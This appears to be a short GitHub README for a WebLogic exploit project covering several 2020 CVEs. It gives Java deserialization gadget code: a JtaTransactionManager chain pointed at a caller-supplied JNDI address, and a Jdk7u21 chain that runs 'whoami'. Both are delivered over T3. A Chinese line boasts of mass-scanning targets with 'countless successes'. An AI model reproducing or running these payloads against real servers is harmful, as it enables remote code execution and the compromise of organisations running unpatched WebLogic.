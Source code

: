 # Weblogic 1day
CVE_2020_2546 CVE-2020-2915 CVE-2020-2801  CVE-2020-2798  CVE-2020-2883 CVE-2020-2884 CVE-2020-2950 WebLogic T3 payload exploit pot python3


### code1
```
public MsgOutput getObject(final String command) throws Exception {
	  String jndiAddress = command;
		JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
		jtaTransactionManager.setUserTransactionName(jndiAddress);
		MsgOutput remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), MsgOutput.class);
    return remote;
  }
```

### code2
```
public IORDelegate getObject(final String command) throws Exception {
IORDelegate ior = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", new Jdk7u21().getObject("whoami")), IORDelegate.class);
    return ior;
  }
```

## CVE-2020-2546 payload
#### 批量一波，成功无数
<img width="621" alt="image" src="https://user-images.githubusercontent.com/18223385/75693161-8c550300-5ce1-11ea-9c28-3e81a6c72d28.png">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/18223385/75693276-abec2b80-5ce1-11ea-9e69-9adee78edee7.png">

